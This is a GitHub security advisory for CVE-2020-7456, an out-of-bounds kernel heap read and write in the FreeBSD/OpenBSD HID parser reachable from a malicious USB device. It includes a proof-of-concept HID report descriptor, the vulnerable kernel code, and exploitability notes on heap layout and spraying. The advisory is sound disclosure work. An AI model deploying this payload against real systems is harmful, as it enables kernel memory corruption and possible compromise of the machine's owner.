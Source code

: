 ```yaml
---
title: ' BSD: Out-of-bounds kernel heap access in hib_get_item for FreeBSD and OpenBSD'
severity: Moderate
ghsa_id: GHSA-2j5v-f98f-f9gr
cve_id: CVE-2020-7456
weaknesses: []
products:
- ecosystem: ''
  package_name: ''
  affected_versions: FreeBSD 12.1-STABLE
  patched_versions: r361918
cvss: null
credits:
- github_user_id: TheOfficialFloW
  name: Andy Nguyen
  avatar: https://avatars.githubusercontent.com/u/14246466?s=40&v=4
---
```


# FreeBSD/OpenBSD: hid_get_item out-of-bounds kernel heap access

## Summary

An attacker with physical access to a machine can cause an out-of-bounds read or write on kernel heap by plugging in a malicious USB HID device.

## Severity

We deem this vulnerability as medium since it is available in default configuration and is very likely exploitable, though it requires physical access.

## Proof Of Concept

Emulate the following HID report descriptor with your USB device. You will see a lot of `hid_get_item: Cannot push item @ X` debug messages on screen. Repeat this for a few times and you may eventually observe a kernel panic.

```c
const uint8_t hid_report[] = {
	// Between 0 and 0xFF of PUSH'es.
	// One PUSH increments the hid_data->cur pointer by sizeof(struct hid_item).
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	// ...

	// Make hid_get_item repeat once again.
	0xA1, 0x01,                   // Collection (Application)

	// Controllable content that can be written out-of-bounds.
	// ---------HOLE--------- //  // 0x00 Usage Page
	0x17, 0x41, 0x41, 0x41, 0x41, // 0x04 Logical Minimum
	0x27, 0x42, 0x42, 0x42, 0x42, // 0x08 Logical Maximum
	0x37, 0x43, 0x43, 0x43, 0x43, // 0x0C Physical Minimum
	0x47, 0x44, 0x44, 0x44, 0x44, // 0x10 Physical Maximum
	0x57, 0x45, 0x45, 0x45, 0x45, // 0x14 Unit Exponent
	0x67, 0x46, 0x46, 0x46, 0x46, // 0x18 Unit
	0x87, 0x47, 0x47, 0x47, 0x47, // 0x1C Report ID
	// ---------HOLE--------- //  // 0x20 Usage
	0x1B, 0x48, 0x48, 0x48, 0x48, // 0x24 Usage Minimum
	0x2B, 0x49, 0x49, 0x49, 0x49, // 0x28 Usage Maximum
	0x3B, 0x4A, 0x4A, 0x4A, 0x4A, // 0x2C Designator Index
	0x4B, 0x4B, 0x4B, 0x4B, 0x4B, // 0x30 Designator Minimum
	0x5B, 0x4C, 0x4C, 0x4C, 0x4C, // 0x34 Designator Maximum
	0x7B, 0x4D, 0x4D, 0x4D, 0x4D, // 0x38 String Index
	0x8B, 0x4E, 0x4E, 0x4E, 0x4E, // 0x3C String Minimum
	0x9B, 0x4F, 0x4F, 0x4F, 0x4F, // 0x40 String Maximum
	0xAB, 0x50, 0x50, 0x50, 0x50, // 0x44 Set Delimiter

	// Report end.
	0x0B, 0x06, 0x00, 0x01, 0x00, // Usage Last
	0xA1, 0x01,                   // Collection (Application)
};
```

## Analysis

### Vulnerability

The vulnerability lies in the PUSH/POP items of the HID report parser:

```c
			case 10:	/* Push */
				s->pushlevel ++;
				if (s->pushlevel < MAXPUSH) {
					s->cur[s->pushlevel] = *c;
					/* store size and count */
					c->loc.size = s->loc_size;
					c->loc.count = s->loc_count;
					/* update current item pointer */
					c = &s->cur[s->pushlevel];
				} else {
					DPRINTFN(0, "Cannot push "
					    "item @ %d\n", s->pushlevel);
				}
				break;
			case 11:	/* Pop */
				s->pushlevel --;
				if (s->pushlevel < MAXPUSH) {
					/* preserve position */
					oldpos = c->loc.pos;
					c = &s->cur[s->pushlevel];
					/* restore size and count */
					s->loc_size = c->loc.size;
					s->loc_count = c->loc.count;
					/* set default item location */
					c->loc.pos = oldpos;
					c->loc.size = 0;
					c->loc.count = 0;
				} else {
					DPRINTFN(0, "Cannot pop "
					    "item @ %d\n", s->pushlevel);
				}
				break;
```

Namely, the 8bit `s->pushlevel` is incremented/decremented outside of the `if (s->pushlevel < MAXPUSH) {` block, which means that `s->pushlevel` can have any values between 0 and 255. The side effect of having a bigger value than `MAXPUSH=4` is that (harmless) debug messages will be printed on screen.

Now, an arbitrary `s->pushlevel` cannot achieve anything in these two items other than showing the debug message. Though, `s->pushlevel` is also referenced at the beginning of `hid_get_item`:

```c
int
hid_get_item(struct hid_data *s, struct hid_item *h)
{
	struct hid_item *c;
	unsigned int bTag, bType, bSize;
	uint32_t oldpos;
	int32_t mask;
	int32_t dval;

	if (s == NULL)
		return (0);

	c = &s->cur[s->pushlevel];
```

and `c` is accessed all over the place. For example:

```c
			switch (bTag) {
			case 0:
				c->_usage_page = dval << 16;
				break;
			case 1:
				c->logical_minimum = dval;
				break;
			case 2:
				c->logical_maximum = dval;
				break;
			case 3:
				c->physical_minimum = dval;
				break;
			case 4:
				c->physical_maximum = dval;
				break;
			case 5:
				c->unit_exponent = dval;
				break;
			case 6:
				c->unit = dval;
				break;
```

In order to reach them, we must let `hid_get_item` run once again. This can be done by ending `hid_get_item` with a collection item:

```c
			case 10:	/* Collection */
				c->kind = hid_collection;
				c->collection = dval;
				c->collevel++;
				c->usage = s->usage_last;
				*h = *c;
				return (1);
```

Since `hid_get_item` is invoked within a loop to search for the right kind of collection, the next iteration will use the malicious `s->pushlevel` value.

### Exploitability

The `cur` array is located at offset `0x18` within `hid_data`. It is of type `hid_item` which has a size of `0x64` bytes. Almost all of its content is controllable by the HID report descriptor. Using items such as `Logical Minimum`, `Designator Minimum`, etc. one can controllably write 32bit integers. The `hid_data` structure has a size of `0x448` bytes, which means it will be allocated within the `0x800` bytes zone. This is quite a common size in the kernel with lots of interesting heap primitives to attack (e.g. USB endpoints can be sprayed in this zone).